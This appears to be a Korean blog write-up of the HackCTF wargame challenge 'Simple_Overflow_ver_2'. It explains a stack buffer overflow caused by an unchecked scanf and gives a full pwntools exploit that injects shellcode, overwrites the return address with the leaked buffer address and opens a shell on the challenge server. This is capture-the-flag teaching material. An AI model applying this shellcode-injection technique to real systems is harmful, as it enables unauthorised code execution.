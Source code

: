 ```yaml
---
title: "[ HackCTF ] Simple_Overflow_ver_2"
date: 2023-03-08T12:51:39.108Z
categories: ['Wargame', 'HackCTF']
tags: ['HackCTF', "pwn"]
---
```


### **문제 분석**
---

![](/assets/images/2023-03-08-Simple_Overflow_ver_2/2023-08-10-13-30-42.png)

문제를 실행해보면 Data를 입력하면 버퍼의 주소를 알 수 있다.

다시 Data를 입력하면 같은 위치에 새로운 Data가 들어간다.

<br>

![](/images/222efab9-9b22-45dd-84aa-26ad6734a54c-image.png)

코드를 보면 scanf로 값을 입력받는 부분에서 길이에 대한 검사가 없어 BOF 취약점이 존재한다.

<br>
<br>

### **문제 풀이**
---
처음에 아무 값이나 입력해서 버퍼의 주소를 찾고, 해당 버퍼에 쉘코드를 삽입하고 return address를 버퍼의 주소로 덮어주면 쉘을 획득할 수 있다.

<br>

Data는 ebp-0x88에 위치하므로 다음과 같이 payload를 작성할 수 있다.

```shellcode + '\x90'*(0x88(buffer)-len(shellcode)+4(sfp))```

<br>

exploit 코드는 다음과 같다.
```python 
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

context.arch = 'i386'
shellcode = asm(shellcraft.sh())

p.sendlineafter('Data : ', 'AAAA')
buf = int(p.recvuntil(':')[:-1],16)

p.sendlineafter('(y/n)', 'y')

payload = ''
payload += shellcode
payload += '\x90'*(0x88-len(shellcode)+4)
payload += p32(buf)

p.sendlineafter('Data : ', payload)
p.interactive()
```